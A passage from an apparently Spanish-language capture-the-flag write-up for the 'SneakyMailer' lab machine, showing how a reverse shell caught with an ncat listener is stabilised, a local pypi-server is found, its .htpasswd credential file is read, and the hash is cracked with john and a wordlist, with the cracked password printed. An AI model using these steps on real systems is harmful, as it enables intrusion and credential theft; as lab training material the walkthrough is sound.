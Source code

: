 Como siempre al ser una maquina `linux` hacemos un tratamiento de la `tty` para que sea full interactiva y ajustamos el tamaño de las proporciones de la pantall.


```bash
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ^Z
zsh: suspended  ncat -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  ncat -nlvp 443
                                reset xterm
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export TERM=xterm
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ export SHELL=bash
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ stty rows 48 columns 184
```


Una vez en la maquina listamos los procesos corriendo y vemos uno correspondiente a `pypi`

```bash
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ ps -faux | grep 5000
www-data  7185  0.0  0.0   3084   824 pts/0    S+   19:49   0:00  |                           \_ grep 5000
pypi       741  0.0  0.6  36804 25824 ?        Ss   17:09   0:08 /var/www/pypi.sneakycorp.htb/venv/bin/python3 /var/www/pypi.sneakycorp.htb/venv/bin/pypi-server -i 127.0.0.1 -p 5000 -a update,download,list -P /var/www/pypi.sneakycorp.htb/.htpasswd --disable-fallback -o /var/www/pypi.sneakycorp.htb/packages
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$
```

Podemos ver que se establece un tipo de conexión procediente de un archivo asi que procederemos a leeerlo

```bash
www-data@sneakymailer:~/dev.sneakycorp.htb/dev$ cat /var/www/pypi.sneakycorp.htb/.htpasswd
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
```

Vemos una contraseña encryptada que procederemos a crackearla por fuerza bruta con `john`

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX512BW 16x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
soufianeelhaoui  (?)
1g 0:00:00:08 DONE (2023-04-08 23:53) 0.1172g/s 419023p/s 419023c/s 419023C/s soulfire1..souderton16
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
